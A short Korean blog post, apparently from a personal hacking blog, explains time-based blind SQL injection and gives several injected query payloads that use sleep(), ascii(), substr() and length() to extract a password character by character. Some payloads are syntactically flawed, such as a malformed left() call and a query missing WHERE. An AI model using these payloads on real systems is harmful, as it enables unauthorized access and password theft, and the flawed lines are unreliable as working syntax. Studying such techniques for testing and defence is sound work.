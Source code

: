 ```yaml
---
layout: post
title: Time Base SQL Injection
date: 2015-08-24 13:43:00 +0900
category: Hacking 
---
```


Time Based SQL Injection은 말 그대로 시간을 이용한 공격이다.

왠만한 Blind SQL Injection을 했을때 결과가 참인지 거짓인지 알수 없을때 이 방법을 시도 해보는것도 좋다.

주로 time()함수와 benchmark()함수가 이용된다.



```
select * from user id='admin' and pw=' ' and if(ascii(substr(pw,1,1))<=120,sleep(3),0)#';
```


이 함수는 pw의 첫번째 문자가 아스키값 120이하라면 sleep 함수를 통해 3초동안 쉬는 공격 구문이다.

if()함수가 막히면 이렇게도 할 수 있다.
```
select * from user id='admin' and pw=' ' and sleep(ascii(substr(pw,1,1)))#';
```
pw의 첫번째 문자의 아스키 값만큼 시간을 지연시킨다. 물론 효율적인 공격 코드를 짜기 위해서 시간을 빼거나 나누어 주면 된다.



만약 substr()과 if()함수가 막혔다면 이렇게도 할 수 있다.


```
select * from user id='admin' and pw=' ' or (sleep(right(left(pw),1,1)))#';
```

이렇게 된다면 pw의 길이만큼 시간을 지연시킨다.
```
select * from user id='admin' and pw=' ' or (sleep(length(pw)))#';
```


공격을 하기전에 미리 길이를 알아놓을떄 편하다.



물론 이 글도 기억나는 대로 추가하겠습니다.



